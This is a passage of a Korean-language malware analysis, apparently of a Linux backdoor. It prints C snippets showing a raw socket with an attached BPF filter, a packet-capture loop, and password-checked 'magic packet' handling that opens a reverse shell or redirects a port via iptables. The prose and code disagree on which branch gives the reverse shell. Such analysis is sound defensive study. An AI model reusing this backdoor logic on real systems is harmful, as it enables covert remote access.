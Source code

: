 ```c
// Filter Options Build Filter Struct
struct sock_fprog filter;
struct sock_filter bpf_code[] = {
        { 0x28, 0, 0, 0x0000000c },
        { 0x15, 0, 27, 0x00000800 },
        { 0x30, 0, 0, 0x00000017 },
        // ...
};

filter.len = sizeof(bpf_code)/sizeof(bpf_code[0]);
filter.filter = bpf_code;

// Build a rawsocket that binds the NIC to receive Ethernet frames
if ((sock = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_IP))) < 1)
        return;

// Set a packet filter
if (setsockopt(sock, SOL_SOCKET, SO_ATTACH_FILTER, &filter, sizeof(filter)) == -1) {
        return;
}

// Loop to Read Packets in 512 Chunks
while (1) {
        memset(buff, 0, 512);
        psize = 0;
        r_len = recvfrom(sock, buff, 512, 0x0, NULL, NULL);
        // ...
}
close(sock);
```

### 6. 매직 패킷 분석 및 명령 분기

> 매직패킷이란?:<br/>
> 매직 패킷이란 일반적으로 특정한 구조를 가진 네트워크 패킷을 의미하며, 이를 수신한 프로그램 또는 시스템은 미리 정의된 행동을 트리거하게 된다. 여기선 백도어 활성화 신호를 매직 패킷으로 보낸다.

- 위에서 설명한 반복문에서 패킷을 지속적으로 캡처하다가, 패킷이 (페이로드의 특정 위치에 `0x7255`나 `0x5293` 등의 flag 값이 존재하는) 매직 패킷으로 식별되면 패스워드를 비교하여 경우에 따라 다음 세 가지 행동을 수행한다:
  - `0`: 1번째 pass와 일치하는 경우, 연결 대상에 대한 역방향 쉘 연결(reverse shell)
  - `1`: 2번째 pass와 일치하는 경우,  iptables 명령어를 통해 로컬 포트를 리디렉션한 뒤 shell 제공
  - `2`: 둘 다 아닌 경우, UDP를 이용한 ping 메시지 응답

```c
int logon(const char *hash) {
        int x = 0;
        x = memcmp(cfg.pass, hash, strlen(cfg.pass));
        if (x == 0)
                return 0;
        x = memcmp(cfg.pass2, hash, strlen(cfg.pass2));
        if (x == 0)
                return 1;
 
        return 2;
}

cmp = logon(mp->pass);
switch(cmp) {
        case 1: // connect reverse shell 
                strcpy(sip, inet_ntoa(ip->ip_src));
                getshell(sip, ntohs(tcp->th_dport));
                break;
        case 0:  // getshell + iptables redirect
                scli = try_link(bip, mp->port);
```